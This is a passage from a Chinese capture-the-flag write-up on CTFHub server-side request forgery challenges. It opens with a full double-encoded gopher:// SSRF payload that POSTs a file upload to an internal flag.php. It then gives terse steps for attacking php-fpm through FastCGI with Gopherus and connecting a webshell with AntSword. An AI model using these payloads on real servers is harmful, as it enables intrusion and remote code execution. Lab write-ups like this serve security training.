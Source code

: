 ```
http://challenge-0b92a02269b5fb44.sandbox.ctfhub.com:10800/?url=gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Length%253A%2520281%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A//challenge-0b92a02269b5fb44.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart/form-data%253B%2520boundary%253D----WebKitFormBoundaryP1tAFG8gw3Q8NTg6%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520%2528Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%2529%2520AppleWebKit/537.36%2520%2528KHTML%252C%2520like%2520Gecko%2529%2520Chrome/92.0.4515.131%2520Safari/537.36%250D%250AAccept%253A%2520text/html%252Capplication/xhtml%252Bxml%252Capplication/xml%253Bq%253D0.9%252Cimage/avif%252Cimage/webp%252Cimage/apng%252C%252A/%252A%253Bq%253D0.8%252Capplication/signed-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A//challenge-0b92a02269b5fb44.sandbox.ctfhub.com%253A10800/%253Furl%253Dfile%253A///var/www/html/flag.php%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AAccept-Language%253A%2520en-CN%252Cen%253Bq%253D0.9%252Czh-CN%253Bq%253D0.8%252Czh%253Bq%253D0.7%252Cen-US%253Bq%253D0.6%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryP1tAFG8gw3Q8NTg6%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%25221.txt%2522%250D%250AContent-Type%253A%2520text/plain%250D%250A%250D%250A111%250D%250A------WebKitFormBoundaryP1tAFG8gw3Q8NTg6%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E9%258E%25BB%25E6%2584%25AA%25E6%25B0%25A6%250D%250A------WebKitFormBoundaryP1tAFG8gw3Q8NTg6--%250D%250A

```

#### FastCGI协议

> 
题目描述：这次，我们需要攻击一下fastcgi协议咯，也许附件的文章会对你有点帮助


> 
FastCGI：



> 
php-fpm



> 
php-fpm攻击实现原理



> 
使用[Gopherus工具](https://github.com/tarunkant/Gopherus)生成攻击FastCGI的payload


> 
利用条件：



> 
然后进行二次编码后将最终的payload内容放到?url=后面发送过去（这里需要进行两次编码，因为这里GET会进行一次解码，curl也会再进行一次解码）


> 
用蚁剑连接webshell


